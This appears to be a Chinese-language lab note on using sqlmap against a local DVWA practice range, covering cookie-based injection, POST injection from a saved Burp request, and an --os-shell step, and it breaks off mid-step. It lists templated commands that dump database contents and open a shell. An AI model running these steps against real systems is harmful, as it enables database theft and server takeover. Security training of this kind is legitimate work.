


# Sqlmap实战笔记

### 一、利用Sqlmap进行需要登录的注入

1. 搭建实验环境：打开burp，使用DVWA下的[SQL Injection](http://127.0.0.1:8081/range/dvwa/vulnerabilities/sqli/)

2. 实验步骤：

   > 1. 任意输入数据并抓包：获取请求包的Cookie值
   >
   >    
   >
   >    
   >
   > 2. 打开Sqlmap，通过获得的Cookie值使用Cookie注入命令：`sqlmap.py -u "注入点" --cookie=”获取的cookie”`
   >
   >    > * 列出当前数据库：`sqlmap.py -u "注入点" --cookie=”获取的cookie” --current-db`
   >    >
   >    >   
   >    >
   >    >   ---
   >    >
   >    >   
   >    >
   >    > * 枚举出指定数据库（当前数据库）的所有表：`sqlmap.py -u "注入点" --cookie=”获取的cookie” -D 当前数据库名 --tables`
   >    >
   >    >   
   >    >
   >    >   ---
   >    >
   >    >   
   >    >
   >    > * 查看指定表中的所有字段：`sqlmap.py -u "注入点" --cookie=”获取的cookie” -D 指定数据库名 -T 指定表名 --columns`
   >    >
   >    >   
   >    >
   >    >   ---
   >    >
   >    >   
   >    >
   >    > * 查看指定字段的所有数据：`sqlmap.py -u "注入点" --cookie=”获取的cookie” -D 指定数据库名 -T 指定表名 -C 指定字段1,指定字段2 --dump --batch`
   >    >
   >    >   
   >    >
   >    >   ---
   >    >
   >    >   

### 二、利用sqlmap进行POST注入

1. 搭建实验环境：打开burp，使用DVWA下的[Brute Force](http://127.0.0.1:8081/range/dvwa/vulnerabilities/brute/)

2. 实验步骤：

   > 1. 使用Burp抓包，并将请求包保存至sqlmap目录下
   >
   >    
   >
   > 2. 枚举出所有的数据库名：`python sqlmap.py -r 保存的请求包文件 -p SQL注入点 --dbs`
   >
   >    
   >
   >    这道题的SQL注入点为username参数
   >
   >    ---
   >
   >    
   >
   > 3. 选择一个数据库，枚举其中的所有表名：`python sqlmap.py -r 保存的请求包文件 -p SQL注入点 -D 表名 --tables`
   >
   >    
   >
   >    ---
   >
   >    
   >
   > 4. 选择一个表，枚举其中的所有字段名：`python sqlmap.py -r 保存的请求包文件 -p SQL注入点 -D 表名 -T 表名 --columns`
   >
   >    
   >
   >    ---
   >
   >    
   >
   > 5. 枚举出指定表中指定字段的数据：`python sqlmap.py -r 保存的请求包文件 -p SQL注入点 -D 表名 -T 表名 -C "指定字段1,指定字段2，…" --dump --batch`
   >
   >    
   >
   >    ---
   >
   >    

### 三、利用sqlmap交互式写shell

1. 搭建实验环境，从存在命令执行漏洞的位置（[Command Injection](http://127.0.0.1:8081/range/dvwa/vulnerabilities/exec/)）获取当前路径，从存在SQL注入的位置（[SQL Injection](http://127.0.0.1:8081/range/dvwa/vulnerabilities/sqli/)）写shell

2. 实验步骤：

   > 1. 通过存在命令执行漏洞的位置获取当前路径：
   >
   >    
   >
   >    > Windows下用：chdir
   >    >
   >    > Linux下用：pwd
   >
   > 2. 抓包获取Cookie值后，利用Cookie进行注入：`sqlmap.py -u "注入点" --cookie=”获取的cookie” --os-shell `
   >
   >    > 1. 判断当前用户权限
   >    >
   >    >    

